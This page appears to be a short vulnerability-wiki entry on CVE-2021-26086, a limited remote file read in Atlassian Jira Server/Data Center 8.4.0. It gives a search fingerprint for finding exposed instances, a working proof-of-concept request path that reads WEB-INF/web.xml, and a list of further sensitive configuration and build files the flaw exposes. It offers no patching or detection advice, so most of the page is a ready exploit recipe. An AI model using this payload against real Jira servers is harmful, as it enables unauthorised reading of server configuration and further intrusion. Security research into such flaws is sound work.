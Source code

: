# Atlassian Jira cfx arbitrary file reading vulnerability CVE-2021-26086

## Vulnerability Description

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Jira Server/Data Center 8.4.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-JIRA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634610793448-229e5b0d-d6d4-4de1-824a-b9d3a3446651-20220313163314705.png)

Verify POC

```php
/s/cfx/_/;/WEB-INF/web.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634610826119-05c0b0fe-2266-46bb-8b2a-9997824e6724-20220313163314907.png)

Readable sensitive configuration files

```php
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```
